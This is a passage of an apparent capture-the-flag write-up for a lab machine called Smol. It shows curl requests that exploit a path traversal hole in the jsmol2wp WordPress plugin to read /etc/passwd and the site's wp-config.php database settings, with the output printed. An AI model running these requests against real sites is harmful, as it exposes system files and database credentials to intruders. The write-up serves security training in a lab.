 ```console
┌──(kali㉿kali)-[~/Smol]
└─$ curl 'http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=../../../../../../../etc/passwd'
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
think:x:1000:1000:,,,:/home/think:/bin/bash
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
```

Using this we can check the machine for files that can escalate our privileges such as id_rsa files for each of the users found here (think, xavi, diego, and gege), however we cannot read files in their respective home directories 

We can also check `wp-config.php` in the Wordpress directory as it contains information require by Wordpress to connect to the database

```console
┌──(kali㉿kali)-[~/Smol]
└─$ curl 'http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=../../../../../../../var/www/wordpress/wp-config.php'

...................

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );
```